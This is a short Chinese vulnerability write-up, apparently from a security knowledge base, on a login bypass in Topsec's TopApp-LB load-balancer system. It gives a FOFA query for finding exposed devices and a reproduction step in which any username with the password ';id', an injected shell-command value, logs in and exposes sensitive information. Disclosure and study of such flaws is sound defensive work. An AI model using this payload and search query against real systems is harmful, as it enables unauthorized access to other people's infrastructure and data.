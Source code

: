 # 天融信 TopApp-LB 登陆绕过漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统无需密码可直接登陆，查看敏感信息

## 影响版本

<a-checkbox checked>天融信负载均衡TopApp-LB</a-checkbox></br>

## FOFA

<a-checkbox checked>app="天融信-TopApp-LB-负载均衡系统"</a-checkbox></br>

## 漏洞复现

在登录页面中输入，账号:**任意账号**  密码:**;id**



![img](../../../.vuepress/public/img/trx-1.png)



成功登录

![img](../../../.vuepress/public/img/trx-2.png)